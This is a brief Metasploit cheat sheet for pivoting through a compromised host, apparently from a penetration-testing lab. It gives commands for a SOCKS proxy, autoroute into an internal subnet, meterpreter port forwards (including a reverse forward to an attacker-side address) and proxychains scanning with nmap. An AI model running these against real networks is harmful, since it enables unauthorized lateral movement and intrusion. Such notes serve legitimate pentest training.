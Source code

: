 # SOCKS
```
use auxiliary/server/socks_proxy  
set SRVPORT 9050  
set SRVHOST 0.0.0.0  
set version 4a  
run  
  
jobs  
```

# Routes
```
use post/multi/manage/autoroute  
set SESSION 1  
set SUBNET 172.16.5.0  
run  
  
run autoroute -s 172.16.5.0/23  
run autoroute -p  
```
  

# Port Forwarding
## Forward

```
portfwd add -l 3300 -p 3389 -r 172.16.5.19  
```
  
## Reverse

```
portfwd add -R -l 8081 -p 1234 -L 10.10.14.18  
```
  
# Proxychains  

```
edit /etc/proxychains4.conf  
proxychains nmap target -p port -sT -v -Pn
```